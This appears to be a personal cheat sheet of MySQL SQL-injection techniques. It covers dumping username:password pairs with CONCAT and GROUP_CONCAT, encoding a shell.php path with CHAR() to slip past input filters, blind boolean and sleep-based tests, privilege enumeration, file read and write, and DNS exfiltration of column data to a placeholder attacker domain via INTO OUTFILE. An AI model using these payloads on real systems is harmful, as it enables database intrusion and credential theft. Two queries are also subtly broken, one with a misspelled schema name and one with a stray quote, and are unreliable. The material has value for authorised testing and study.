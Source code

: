 	# MySQL Database

## Comment Syntax

1. `#`
	* `#COMMENT HERE` 
2. `-- `
	* `-- COMMENT HERE`
	* Note the required whitespace
3. `/* */`
	* `/*COMMENT HERE*/` 

---

## Version Query Syntax

```sql
SELECT @@version
```

```sql
SELECT version()
```

---

## String Concatenation Syntax

```sql
SELECT CONCAT(username, ':', password) FROM users
```

* Takes a variable number of arguments
* Arguments can be column names from the target table or string literals

---

## Concatenate All Rows' Particular Column Value into a Single String

```sql
SELECT GROUP_CONCAT($COLUMN_NAME) FROM $TABLE_NAME
```

- This is a helpful alternative in SQL injection when you can only return a single row's column at a time
	- Instead of using `LIMIT` and multiple requests to return each row's value, you can use this to return all rows' value

---

## Cast an Integer into a Character

```sql
-- CHAR($INTEGER)
```

```sql
SELECT path FROM paths WHERE path = CONCAT(CHAR(47),'var',CHAR(47),'www',CHAR(47),'html',CHAR(47),'shell',CHAR(46),'php') -- /var/www/html/shell.php
```

* Especially helpful for bypassing tricky input restrictions on file paths (i.e., no `/`, `\`, and `.` allowed)


---

## Substring Syntax

```sql
SUBSTRING($STRING, $START_INDEX, $LENGTH)
```

```sql
SELECT COUNT(*) FROM users WHERE SUBSTRING(password,1,1) > 'm'
```
* Indices start at 1

---

## Conditional Syntax

```sql
SELECT IF($CONDITION, $VALUE_IF_TRUE, $VALUE_IF_FALSE)
```

```sql
SELECT IF(COUNT(*) = 1, 1, 0) FROM users WHERE username = 'admin' AND password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

Alternatively,

```sql
SELECT CASE WHEN ($CONDITION) THEN $VALUE_IF_TRUE ELSE $VALUE_IF_FALSE END
```

```sql
SELECT CASE WHEN (COUNT(*) = 1) THEN 1 ELSE 0 END FROM users WHERE username = 'admin' and password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

---

## Time delay syntax

[Reference](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Unconditionally wait for 10 seconds

```sql
SELECT sleep(10)
```

### Conditionally wait for 10 seconds

```sql
SELECT IF ($CONDITION$, sleep(10), 'a')
```

---

## DNS Lookup Syntax

```sql
LOAD_FILE('\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## DNS Lookup with Data Exfiltration Syntax

```sql
SELECT $COLUMNS_TO_EXFIL INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## Get Current Database

```sql
SELECT database();
```

---

## Database enumeration

```sql
SELECT schema_name FROM information_schema.schemata
```

---

## Table enumeration

[[database-enumeration#Querying database tables non-Oracle]]

---

## Table column enumeration

[[database-enumeration#Querying database tables' columns non-Oracle]]

---

## Enumerate a Database's Tables and their Correspoding Columns

```sql
SELECT GROUP_CONCAT(TABLE_NAME, ':', COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA = '$DATABASE'
```

- Databases can be enumerated with [[mysql#Database enumeration|this query]]

---

## Table & Column Enumeration for Entire Database (One Request)

```sql
SELECT GROUP_CONCAT(CONCAT('\n', table_name, ':', column_name)) FROM information.schema.columns WHERE table_schema = '$DATABASE_NAME';
```

---

## Show Current User

```sql
SELECT CURRENT_USER()
```

---

## Show Current User's MySQL Privileges

### Via `SHOW GRANTS`

```sql
SHOW GRANTS
```

### Via Database Tables

The `information_schema.user_privileges` and `mysql.user` tables can be used to enumerate the current user's privileges.

```sql
SELECT grantee, privilege_type FROM INFORMATION_SCHEMA.USER_PRIVILEGES WHERE grantee = '$USERNAME_DOUBLE_SINGLE_QUOTED'
```

- `$USERNAME_DOUBLE_SINGLE_QUOTED` example: `user@localhost` would be `''user''@''localhost''`

```sql
SELECT user,select_priv,insert_priv,update_priv,delete_priv,create_priv,drop_priv,reload_priv,shutdown_priv,process_priv,file_priv,grant_priv,references_priv,index_priv,alter_priv,show_db_priv,super_priv,create_tmp_table_priv,lock_tables_priv,execute_priv,repl_slave_priv,repl_client_priv,create_view_priv,show_view_priv,create_routine_priv,alter_routine_priv,create_user_priv FROM mysql.user" WHERE user = '$USERNAME'
```

- Note `file_priv`

---

## Read File

```sql
SELECT LOAD_FILE("$FILE_PATH")
```

---

## Write to File

```sql
SELECT "$CONTENT_TO_WRITE" INTO OUTFILE "$OUTFILE_PATH"
```

---

## Interact with test database

[Reference](https://hub.docker.com/r/genschsa/mysql-employees)

On a Linux machine with Docker installed, run the `mysql-employees` Docker container.
* Change `$PASSWORD`

```bash
docker run -d -it --rm \
  --name mysql-employees \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=blah \
  -v $PWD/data:/var/lib/mysql \
  genschsa/mysql-employees
```

Get a shell in the container.

```bash
docker exec -it mysql-employees /bin/bash
```

In the container, connect to the test MySQL database.

```bash
mysql -u root -p
```

Query away!